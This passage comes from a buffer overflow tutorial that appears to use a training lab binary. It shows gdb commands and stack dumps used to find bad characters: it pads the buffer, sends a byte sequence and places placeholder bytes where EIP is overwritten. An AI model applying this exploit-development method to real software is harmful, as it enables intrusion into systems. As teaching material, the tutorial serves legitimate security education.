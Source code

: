 The Stack now will look:
```
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```

Here it depends on our bytes' correct order in the variable CHARS to see if any character changes, interrupts, or skips the order. Now we recognize that after the `x08`, we encounter the `\x00` instead of the `\x09` as expected. This tells us that this character is not allowed here and must be removed accordingly.

Let's calculate again:
```
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782	

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff" 
 
   EIP = "\x66" * 4
```

Now send the CHAR without `\x00` and `\x09`:
```
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

The Stack now will be:
```
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x0a" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```
